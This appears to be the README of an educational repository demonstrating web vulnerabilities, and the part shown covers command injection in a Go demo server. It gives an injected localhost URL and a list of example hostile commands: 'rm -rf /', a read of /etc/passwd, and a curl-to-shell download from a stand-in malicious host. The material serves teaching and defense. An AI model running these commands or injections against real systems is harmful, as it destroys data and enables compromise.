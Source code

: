 # Web Security Standards Demo

## Introduction
This repository serves as an educational resource for understanding and addressing common web security vulnerabilities. It currently covers the following vulnerabilities through practical demonstrations, with actionable steps to mitigate them:
- Cross-Site Request Forgery (CSRF)
- SQL Injection
- Command Injection
- Cross-Site Scripting (XSS)

By studying these examples, developers can cultivate a security-first mindset, essential for building robust, production-grade web applications. This repo will be continuously updated with additional web security vulnerabilities and practices to further enhance secure development techniques.

### Command Injection

Command injection is a security vulnerability that occurs when an application passes unsafe user-supplied data to a system shell or command interpreter. Attackers can exploit this flaw to execute arbitrary commands on the host operating system, potentially compromising the entire system.

#### Running the Demo

To start the server, run:

```bash
go run cmd/commandinjection/main.go
```

#### Example Attack

Access the following URL to simulate a command injection attack:

```
http://localhost:8080/gitlog?branch=main%3Bls%20%2F
```

This URL injects an additional `ls /` command after the intended `main` branch, demonstrating how unsanitized input can lead to arbitrary command execution.

#### Potential Malicious Commands

Attackers may attempt to run various harmful commands, such as:

- ``rm -rf /`` — Deletes all files on the server.
- ``cat /etc/passwd`` — Reads sensitive system files.
- ``whoami`` — Reveals the user context the server is running under.
- ``curl http://malicious-site.com/malware.sh | sh`` — Downloads and executes malicious scripts.
- ``ps aux`` — Lists running processes, potentially exposing sensitive information.

#### Mitigation Strategies

- **Never** pass user input directly to system commands.
- Validate and sanitize all user inputs.
- Apply the principle of least privilege to the application process.

